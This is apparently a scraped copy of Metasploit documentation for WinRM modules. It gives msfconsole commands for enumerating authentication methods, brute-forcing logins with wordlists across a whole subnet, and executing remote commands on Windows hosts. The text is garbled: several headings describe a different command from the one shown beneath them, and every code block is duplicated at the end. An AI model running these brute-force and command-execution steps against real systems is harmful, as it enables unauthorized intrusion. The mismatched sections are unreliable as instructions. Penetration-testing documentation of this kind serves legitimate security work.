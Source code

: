 ## WinRM Workflows
Either with the modern inline option support:
```
use scanner/winrm/winrm_auth_methods

run http://192.168.123.139:5985
run https://192.168.123.139:5986
```

Or by manually setting options:
```
use scanner/winrm/winrm_auth_methods
set RHOST 192.168.123.139
set RPORT 5985
set SSL false
run
```

There are more modules than listed here, for the full list of modules run the `search` command within msfconsole:
```msf
msf6 > search winrm
```

### Lab Environment
WinRM over HTTPS requires the creation of a Server Authenticating Certificate, as well as enabling the transport mode:
```
use scanner/winrm/winrm_auth_methods
run http://192.168.123.139:5985
run https://192.168.123.139:5986
```

### Authentication Enumeration
Enumerate WinRm authentication mechanisms:
```msf
msf6 auxiliary(scanner/winrm/winrm_auth_methods) > run http://192.168.123.139:5985

[+] 192.168.123.139:5985: Negotiate protocol supported
[+] 192.168.123.139:5985: Kerberos protocol supported
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Example:
```
use scanner/winrm/winrm_login
run https://known_user@192.168.222.1:5986 threads=50 pass_file=./wordlist.txt
```

### WinRM Bruteforce
Brute-force host with known user and password list:
```
use scanner/winrm/winrm_login
run http://192.168.123.139:5985 threads=50 user_file=./users.txt pass_file=./wordlist.txt
```

Brute-force credentials:
```
use scanner/winrm/winrm_login
run cidr:/24:http://user:pass@192.168.222.0:5985 threads=50
run cidr:/24:http://user@192.168.222.0:5985 threads=50 pass_file=./wordlist.txt
```

Brute-force credentials in a subnet:
```
use scanner/winrm/winrm_cmd
run http://user:pass@192.168.123.139:5985 cmd='whoami; ipconfig; systeminfo'
```

### WinRM CMD
To execute arbitrary commands against a windows target:
```
use scanner/winrm/winrm_login
run http://user:pass@192.168.123.139:5985
```

`
use scanner/winrm/winrm_auth_methods

run http://192.168.123.139:5985
run https://192.168.123.139:5986
`

`
use scanner/winrm/winrm_auth_methods
set RHOST 192.168.123.139
set RPORT 5985
set SSL false
run
`

`msf
msf6 > search winrm
`

`
use scanner/winrm/winrm_auth_methods
run http://192.168.123.139:5985
run https://192.168.123.139:5986
`

`msf
msf6 auxiliary(scanner/winrm/winrm_auth_methods) > run http://192.168.123.139:5985

[+] 192.168.123.139:5985: Negotiate protocol supported
[+] 192.168.123.139:5985: Kerberos protocol supported
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
`

`
use scanner/winrm/winrm_login
run https://known_user@192.168.222.1:5986 threads=50 pass_file=./wordlist.txt
`

`
use scanner/winrm/winrm_login
run http://192.168.123.139:5985 threads=50 user_file=./users.txt pass_file=./wordlist.txt
`

`
use scanner/winrm/winrm_login
run cidr:/24:http://user:pass@192.168.222.0:5985 threads=50
run cidr:/24:http://user@192.168.222.0:5985 threads=50 pass_file=./wordlist.txt
`

`
use scanner/winrm/winrm_cmd
run http://user:pass@192.168.123.139:5985 cmd='whoami; ipconfig; systeminfo'
`

`
use scanner/winrm/winrm_login
run http://user:pass@192.168.123.139:5985
`

